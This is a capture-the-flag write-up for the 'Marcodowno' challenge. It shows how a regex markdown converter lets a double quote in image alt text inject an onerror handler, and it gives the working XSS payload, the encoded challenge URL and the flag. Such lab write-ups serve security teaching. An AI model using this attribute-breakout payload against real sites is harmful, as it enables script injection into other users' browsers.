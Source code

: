 
## Title: Marcodowno
**Points:** 105  
**Solves:** 158

### Descriptions: 
Someone told me to use a lib, but real developers rock regex one-liners.

### Solution:

This is an XSS-challenge. You have to submit a url that pops `alert(1)` to get the flag.

We are presented with a webpage that takes input trought the GET-parameter `input`, url-decodes it, converts it from markdown to html and then renders it back to us.

To convert from markdown to html it uses:

```js
function markdown(text){
  text = text.replace(/[<]/g, '').replace(/----/g,'<hr>').replace(/> ?([^\n]+)/g, '<blockquote>$1</blockquote>').replace(/\*\*([^*]+)\*\*/g, '<b>$1</b>').replace(/__([^_]+)__/g, '<b>$1</b>').replace(/\*([^\s][^*]+)\*/g, '<i>$1</i>').replace(/\* ([^*]+)/g, '<li>$1</li>').replace(/##### ([^#\n]+)/g, '<h5>$1</h5>').replace(/#### ([^#\n]+)/g, '<h4>$1</h4>').replace(/### ([^#\n]+)/g, '<h3>$1</h3>').replace(/## ([^#\n]+)/g, '<h2>$1</h2>').replace(/# ([^#\n]+)/g, '<h1>$1</h1>').replace(/(?<!\()(https?:\/\/[a-zA-Z0-9./?#-]+)/g, '<a href="$1">$1</a>').replace(/!\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#]+)\)/g, '<img src="$2" alt="$1"/>').replace(/(?<!!)\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#-]+)\)/g, '<a href="$2">$1</a>').replace(/`([^`]+)`/g, '<code>$1</code>').replace(/```([^`]+)```/g, '<code>$1</code>').replace(/\n/g, "<br>");
  return text;
}
```

The function converts using a bunch of regex text-replaces. One of them converts embeded markdown images to html img-tags:

```js
replace(/!\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#]+)\)/g, '<img src="$2" alt="$1"/>')
```

Group number 1 in the regex, `([^\]]+)`, which gets echoed into `alt="$1"` allows any characters except `]`. Therefore, our paylod becomes something like:

```
![a" onerror="alert(1)](http://example.com)
```

Which results in the following html being rendered to us:

```html
<img src="http://example.com" alt="a" onerror="alert(1)"/>
```

Our url to submit becomes: `http://marcodowno-01.play.midnightsunctf.se:3001/markdown?input=!%5Ba%22%20onerror=%22alert(1)%5D(http://example.com)`.

**Flag:** midnight{wh0_n33ds_libs_wh3n_U_g0t_reg3x?}

